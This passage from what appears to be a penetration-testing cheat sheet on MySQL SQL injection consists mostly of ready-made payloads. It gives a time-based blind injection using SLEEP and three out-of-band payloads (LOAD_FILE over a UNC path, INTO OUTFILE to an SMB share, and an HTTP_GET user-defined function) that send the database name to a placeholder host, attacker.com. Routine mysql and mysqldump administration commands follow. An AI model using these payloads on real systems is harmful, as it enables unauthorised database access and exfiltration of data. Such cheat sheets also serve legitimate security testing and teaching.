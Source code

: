     ```c
    ' AND IF((SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1)='a', SLEEP(5), 0) -- -
    ```

**Out-of-Band SQLi**

*   **DNS Exfiltration Using LOAD\_FILE():** Causes the MySQL database to attempt to load a file from an attacker-controlled domain, exfiltrating the database name via a DNS query.

    ```c
    ' UNION SELECT LOAD_FILE(CONCAT('\\\\', database(), '.attacker.com\\')) -- -
    ```
*   **DNS Exfiltration Using INTO OUTFILE:** Attempts to write data to a file on a remote SMB server controlled by the attacker, leaking the database name.

    ```c
    ' UNION SELECT 1 INTO OUTFILE '\\\\attacker.com\\dbname.txt' -- -
    ```
*   **HTTP Exfiltration Using UDF:** Loads a user-defined function (UDF) that allows MySQL to make HTTP requests, sending the database name to the attacker's server.

    ```c
    ' UNION SELECT 1 INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_http.so';  ' SELECT HTTP_GET(CONCAT('http://attacker.com/?db=',database())); -- -
    ```

### Tools

#### \[\[MySQL]]

*   **Connecting to MySQL:** Connects to a MySQL server using the specified username and host.

    ```bash
    mysql -u <username> -p -h <target_ip>
    ```
*   **Performing a Backup:** Exports the entire database to a SQL file for backup purposes.

    ```bash
    mysqldump -u <username> -p <database_name> > backup.sql
    ```
*   **Restoring from a Backup:** Restores a database from a previously created SQL backup.

    ```bash
    mysql -u <username> -p <database_name> < backup.sql
    ```
*   **Monitoring Performance:** Displays active queries and processes, useful for identifying long-running queries or bottlenecks.

    ```bash
    SHOW PROCESSLIST;
    ```

### Exploitation Tools

#### \[\[Wireshark]]
